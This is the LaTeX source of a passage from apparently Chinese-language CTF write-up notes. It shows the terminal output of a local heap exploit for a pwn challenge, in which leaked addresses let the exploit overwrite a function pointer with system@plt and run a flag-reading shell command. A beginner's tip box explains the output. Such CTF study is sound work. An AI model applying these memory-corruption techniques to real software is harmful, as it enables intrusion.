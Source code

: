 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py
[x] Starting local process '/home/kzzz/Documents/code/ctf/sunshine/pwn6/./ld-linux-x86-64.so.2'
[+] Starting local process '/home/kzzz/Documents/code/ctf/sunshine/pwn6/./ld-linux-x86-64.so.2': pid 3544661
[+] handshake ok, key schedule = c019d1695f0ac1565baaa2db1d5b4b0e
[+] PIE base = 0x7f60fba50000
[*] target function pointer @ 0x7f60fba540c0  ->  system@plt 0x7f60fba51150
[+] heap leak: stored_next=0x5550d95af4a3 tcache_key=0x78d66b85f51864dd
[+] victim P (malloc user ptr) = 0x55558c023480
[+] wrote system@plt into <0x7f60fba540c0>
[+] verified: [0x7f60fba540c0] == 0x7f60fba51150
[*] triggering system(b'cat flag.txt /flag /home/*/flag.txt 2>/dev/null; ls -la; id; echo DONE')
sun{local_test_flag}
total 2520
drwxr-xr-x  2 kzzz kzzz    4096 Sep 28 01:01 .
drwxr-xr-x 10 kzzz kzzz    4096 Sep 28 00:14 ..
... （ls -la 的其餘行省略）
uid=1001(kzzz) gid=1001(kzzz) groups=1001(kzzz),65534(nobody)
DONE
HQ▒▒▒M▒t▒u▒▒Y0▒▒▒▒G▒`J▒▒▒▒-6▒ Z▒        ← ✶ 見下方說明（cmd 0x15 的回音）
2-\▒▒▒▒▒▒▒▒▒▒▒P▒▒▒▒P▒▒▒▒  ▒
FLAG: sun{local_test_flag}
[*] local test flag -> FLAG.txt left untouched
[*] Stopped process '/home/kzzz/Documents/code/ctf/sunshine/pwn6/./ld-linux-x86-64.so.2' (pid 3544661)
\end{Verbatim}

\begin{quote}
※提示 \textbf{新手最常以為「我跑壞了」的四件事} 1. 前兩行
\texttt{{[}x{]}\ \allowbreak{}Starting\ \allowbreak{}local\ \allowbreak{}process\ \allowbreak{}...} /
\texttt{{[}+{]}\ \allowbreak{}Starting\ \allowbreak{}local\ \allowbreak{}process\ \allowbreak{}...:\allowbreak{}\ \allowbreak{}pid\ \allowbreak{}NNNN} 是
\textbf{pwntools} 印的，不是程式輸出。 2.
\texttt{{[}+{]}\ \allowbreak{}victim\ \allowbreak{}P\ \allowbreak{}(malloc\ \allowbreak{}user\ \allowbreak{}ptr)\ \allowbreak{}=\ \allowbreak{}...} 的 \texttt{P}
是 \textbf{\texttt{malloc} 回傳的 user 位址}（不是 chunk 標頭， 標頭是
\texttt{P\ \allowbreak{}-\allowbreak{}\ \allowbreak{}0x10}，見 §3.5 (1) 與 §4.3）。 3. \textbf{\texttt{DONE}
後面那一大串非 ASCII 亂碼是正常的}：\texttt{cmd\ \allowbreak{}0x15} 的處理器在呼叫完
\texttt{{[}0x40c0{]}} 之後，還會把「收到的 cmd
內容」加密後回音一次（§2.11 的 1a50\textasciitilde1a71）， 所以 socket
上一定會有這串二進位。它不影響 flag。
討厭看到它的話：\texttt{python3\ \allowbreak{}exploit.\allowbreak{}py\ \allowbreak{}\textbar{}\allowbreak{}\ \allowbreak{}tr\ \allowbreak{}-\allowbreak{}d\ \allowbreak{}\textquotesingle{}\allowbreak{}\textbackslash{}\allowbreak{}000\textquotesingle{}\allowbreak{}}（本筆記就是這樣截的）。
4. 本地測試\textbf{不會}覆蓋
\texttt{FLAG.\allowbreak{}txt}（\texttt{{[}*{]}\ \allowbreak{}local\ \allowbreak{}test\ \allowbreak{}flag\ \allowbreak{}-\allowbreak{}\textgreater{}\allowbreak{}\ \allowbreak{}FLAG.\allowbreak{}txt\ \allowbreak{}left\ \allowbreak{}untouched}）------
不然打過遠端再跑本地就會把真 flag 蓋掉。
\end{quote}
\end{document}
